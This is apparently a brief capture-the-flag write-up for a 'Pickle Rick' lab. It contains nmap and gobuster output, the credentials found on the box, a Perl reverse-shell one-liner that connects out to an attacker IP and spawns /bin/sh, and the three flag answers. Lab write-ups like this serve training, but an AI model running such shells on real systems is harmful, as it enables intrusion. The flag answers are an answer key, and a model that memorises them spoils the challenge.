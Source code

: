 # Pickle Rick 

> David

------------------

10.10.253.0

nmap -sV -sC 10.10.253.0 -o nmap/initial
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 18:16 EDT
Nmap scan report for 10.10.253.0
Host is up (0.072s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:51:4a:2b:cf:8f:fe:36:d1:4b:44:ab:47:9c:cc:e8 (RSA)
|   256 e2:32:51:4b:38:58:3a:98:19:70:e5:d3:73:64:43:b2 (ECDSA)
|_  256 3c:9f:e7:4b:53:64:fb:90:5d:44:b5:d5:88:b2:24:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.94 seconds
```

# Open Ports: 22, 80

> Creds
```
Username: R1ckRul3s
Password: Wubbalubbadubdub

```

# Gobuster

>gobuster dir -u http://10.10.253.0/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

```
perl -e 'use Socket;$i="10.18.88.178";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

# 1st Ingredient 
```
mr. meeseek hair
```

# 2nd Ingredient 
```
1 jerry tear
```

# 3rd Ingredient
```
fleeb juice
```